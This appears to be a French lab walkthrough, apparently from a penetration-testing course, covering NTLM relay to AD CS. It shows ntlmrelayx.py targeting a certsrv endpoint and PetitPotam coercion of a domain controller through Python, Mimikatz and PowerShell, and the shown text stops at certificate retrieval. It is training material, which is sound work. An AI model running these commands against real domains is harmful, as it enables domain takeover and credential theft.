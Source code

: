 #### <mark style="color:green;">1. Préparation du relais NTLM vers AD CS</mark>

**But :** Forcer un contrôleur de domaine (DC) à s’authentifier auprès du serveur d’Active Directory Certificate Services (AD CS) via le protocole NTLM.

**Commande :**\
Lancer `ntlmrelayx.py` pour écouter les connexions relayées et rediriger l’authentification vers le serveur Web de l’AD CS.

{% code overflow="wrap" fullWidth="true" %}
```bash
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
{% endcode %}

_Ce serveur relais attend qu’un DC se connecte afin de récupérer une authentification (et ensuite un certificat) via AD CS._

***

#### <mark style="color:green;">2. Déclenchement de l’authentification avec PetitPotam</mark>

**But :** Coercer le DC à s’authentifier sur votre machine, ce qui déclenche la connexion relayée.

**Commande (Linux – version Python) :**

```bash
python3 PetitPotam.py <IP_ATTACK_HOST> <IP_DOMAIN_CONTROLLER>
```

_Exemple :_

```bash
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```

**Alternatives :**

* **Exécutable Windows :** Une version binaire de PetitPotam est également disponible pour Windows.
*   **Mimikatz :**

    ```mimikatz
    mimikatzCopyEditmisc::efs /server:<Domain_Controller> /connect:<ATTACK_HOST>
    ```
* **PowerShell :** Utiliser `Invoke-PetitPotam.ps1`.

_L’attaque exploite la fonction `EfsRpcOpenFileRaw` pour obtenir une réponse « ERROR\_BAD\_NETPATH » qui confirme le succès et force le DC à s’authentifier vers vous._

***

#### <mark style="color:green;">3. Récupération du certificat de la machine (DC)</mark>

**But :** Grâce au relais NTLM, `ntlmrelayx.py` intercepte l’authentification et récupère le certificat base64 encodé du compte machine du DC.
